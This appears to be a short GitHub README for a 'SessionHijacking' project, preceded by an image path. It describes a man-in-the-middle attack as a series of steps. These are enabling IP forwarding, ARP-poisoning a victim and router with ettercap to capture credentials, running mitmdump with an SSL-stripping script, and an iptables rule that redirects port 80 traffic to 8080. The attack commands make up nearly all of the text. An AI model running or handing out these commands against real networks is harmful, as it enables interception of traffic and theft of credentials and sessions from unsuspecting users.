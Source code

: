 # SessionHijacking
In this project we will perform session hijacking attack by the below steps.
1.)  First, we enable the packet forwarding by “echo 1 > /proc/sys/net/ipv4/ip_forward” command.
2.) ettercap -Tq -M arp:remote -i interface -s /router_ip// /victim_ip// to do arp poisioning and capture the credentials.
3.) To perform SSL Stripping we are using MITM dump tool and SSL stripping script.
Mitmdump –s sslstripping.py -m transparent.
We used iptables to do traffic redirect from port 80 to port 8080.
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
